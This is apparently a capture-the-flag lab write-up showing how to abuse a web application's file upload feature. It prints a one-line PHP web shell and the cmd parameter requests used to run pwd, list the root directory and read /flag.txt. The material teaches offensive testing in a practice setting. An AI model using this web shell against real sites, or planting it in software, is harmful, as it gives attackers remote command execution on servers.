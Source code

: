 # Upload Exploitation

Try to exploit the upload feature to upload a web shell and get the content of /flag.txt

This lab consists in obtaining a web shell access through the web application. There may be multiple ways to this, so I'll just how I did it.

<figure><img src="../../../.gitbook/assets/image (10) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

First create a simple custom web shell:

```php
<?php system($_REQUEST['cmd']); ?>
```

<figure><img src="../../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Access the web application and upload the web shell.

<figure><img src="../../../.gitbook/assets/image (3) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

After the file has been uploaded, click on `Download File` and you will be redirected to this page. We are currently accessing the file we just uploaded. Since the function is expecting a command we have to write the `cmd` parameter.

```bash
?cmd=pwd
```

<figure><img src="../../../.gitbook/assets/image (4) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Since we passed the `pwd` command, we got the output that we were expecing. So we can confirm we got a web shell access.

Now all we have to do is search for the flag, which in this case is in the root directory.

```bash
?cmd=ls /
```

<figure><img src="../../../.gitbook/assets/image (5) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Here it is! Now let's see the content of the flag:

```
?cmd=cat /flag.txt
```

<figure><img src="../../../.gitbook/assets/image (6) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

And we got it!
